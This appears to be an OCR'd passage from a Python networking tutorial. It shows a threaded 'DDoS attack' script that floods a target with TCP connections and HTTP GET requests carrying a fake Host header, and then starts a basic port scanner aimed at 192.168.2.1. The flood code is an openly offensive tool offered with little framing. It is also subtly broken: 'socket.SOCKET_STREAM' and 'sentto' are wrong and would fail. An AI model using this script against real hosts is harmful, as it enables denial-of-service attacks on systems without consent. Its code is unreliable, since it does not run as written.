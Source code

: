 

**Define DDOS Attack**

```python
def attack():
    while True:
        # Create a new TCP socket using IPv4 addresses
        s = socket.socket(socket.AF_INET, socket.SOCKET_STREAM)
        # Connect to that target IPv4 address on the target port
        s.connect((target, port))
        s.sentto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
        # Send data to the socket
        s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        s.close()
```



**Run DDOS Attack**

```python
for i in range(500):
    thread = threading.Thread(target=attack)
    thread.start()
```





## Basic Port Scanner

* Open ports are potential security vulnerabilities

* A port scanner can help detect open ports that are not needed so we can close them

* ***Port scanning is illegal without permission!!!***



**Import Dependencies**

* [**socket:**](https://docs.python.org/3/library/socket.html) low-level networking interface
* [**threading:**](https://docs.python.org/3/library/threading.html) thread-based parrallelism
* **[queue:](https://docs.python.org/3/library/queue.html)** a synchronized queue class

```python
import socket
import threading
from queue import Queue
```

**Set Target Address**

```python
target = '192.168.2.1'
```

**Check if a Port Is Open**

```python
def portscan(port):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((target, port))
        return True
    except:
        return False
```
